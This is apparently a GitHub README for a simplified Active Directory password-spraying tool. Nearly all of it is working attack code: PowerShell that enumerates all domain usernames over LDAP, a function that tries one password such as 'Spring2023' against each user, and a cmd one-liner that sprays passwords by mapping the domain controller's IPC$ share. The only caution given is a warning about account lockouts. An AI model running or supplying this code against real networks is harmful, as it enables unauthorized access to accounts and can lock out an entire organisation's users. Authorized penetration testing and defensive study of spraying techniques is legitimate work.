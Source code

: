 # DomainPasswordSprayLight

Kudos to Beau Bullock and his [Domain Password Spray Script](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) of which this is a simplification.

## Gather Domain Usernames

Run the following to get a PowerShell object called $AllUserObjects that you can interact with to sort, filter and write seletected usernames to a file of your choosing.

```PowerShell
$UserSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$CurrentDomain)
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry
$UserSearcher.SearchRoot = $DirEntry
$UserSearcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$Filter = ""
$UserSearcher.filter = "(&(objectCategory=person)(objectClass=user)$Filter)"
$UserSearcher.PageSize = 1000

Write-Host -ForegroundColor Cyan "Searching for all users, this may take several minutes."
$AllUserObjects = $UserSearcher.FindAll()
Write-Host -ForegroundColor "yellow" ("[*] " + $AllUserObjects.count + " total users found.")
```

### Write all usernames to a file

```PowerShell
$outfile = "all-user.txt"
Remove-Item $outfile -ErrorAction Ignore
$AllUserObjects.Properties.samaccountname | add-content $outfile
```

### Write specific users to a file

In this example, the usernames are limited to only those that start with "ab"

```PowerShell
$outfile =  "all-ab-accounts.txt" 
Remove-Item $outfile -ErrorAction Ignore
($AllUserObjects | where-object {$_.Properties.samaccountname -like  "ab*"}).Properties.samaccountname | add-content $outfile
```
## Password Spray with PowerShell

First, copy and paste the Invoke-dpsLight function below into your PowerShell window. This will not run the password spray but will make the Invoke-dpsLight function available for us to use.

```PowerShell
function Invoke-dpsLight ($Password, $userlist) {
    $users = Get-Content $userlist
    $Domain = "LDAP://" + ([ADSI]"").distinguishedName
    $count = 0
    foreach ($User in $users) {
        $count = $count + 1
        $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
        if ($Domain_check.name -ne $null) {
            Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
        }
        else {
            Write-Host "$count`:$User " -NoNewline
            # start-sleep -milliseconds 300
        }
    }
    Write-Host -ForegroundColor green "Finished"
}
```

Next, you can execute the follow to run the password spray. Be very careful. You could lock every user in the domain out using this script. Don't run it multiple times in a short period of time. In this example, `Spring2023` is the password guess and **all-ab-users.txt** is the list of usernames to try the password on.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt
```

Or, if you want to output the results to a file in addition to on the screen you can use the following.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt 2 *>&1 | tee -Append out.txt
```

## Password Spray from the Command Prompt

This method using a different method which generates different Windows event IDs. It is also much slower.

The command below loops through a list of users and attempts to map the IPC$ share on the domain controller in order to determine if the password is correct or not. If it is correct, it prints a message to the screen and then unmaps/disconnects from the IPC$ share.

This example uses a password of `Spring2023` against a list of users called **users.txt** in the current directory.

```cmd
@FOR /F "delims=" %n in (users.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "Spring2023" 1>NUL 2>&1 && @echo [*] %n:Spring2023 && @net use /delete %logonserver%\IPC$ > NUL
```
